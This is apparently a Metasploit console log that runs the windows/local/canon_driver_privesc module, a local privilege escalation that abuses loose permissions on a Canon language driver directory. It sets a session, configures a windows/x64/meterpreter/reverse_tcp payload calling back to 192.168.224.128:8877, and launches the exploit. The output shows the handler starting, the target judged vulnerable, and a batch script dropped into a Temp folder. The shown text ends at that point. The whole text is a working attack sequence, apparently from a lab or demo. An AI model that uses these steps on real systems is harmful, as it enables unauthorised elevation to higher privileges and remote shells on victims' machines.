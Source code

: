 ```
msf6 exploit(windows/local/canon_driver_privesc) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/canon_driver_privesc) > show options

Module options (exploit/windows/local/canon_driver_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(windows/local/canon_driver_privesc) > set LPORT 8877
LPORT => 8877
msf6 exploit(windows/local/canon_driver_privesc) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/canon_driver_privesc) > show options

Module options (exploit/windows/local/canon_driver_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT     8877             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(windows/local/canon_driver_privesc) > exploit

[*] Started reverse TCP handler on 192.168.224.128:8877
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Canon language driver directory grants Users full permissions
[*] Dropping batch script to C:\Users\test\AppData\Local\Temp\ssSffWM.bat
```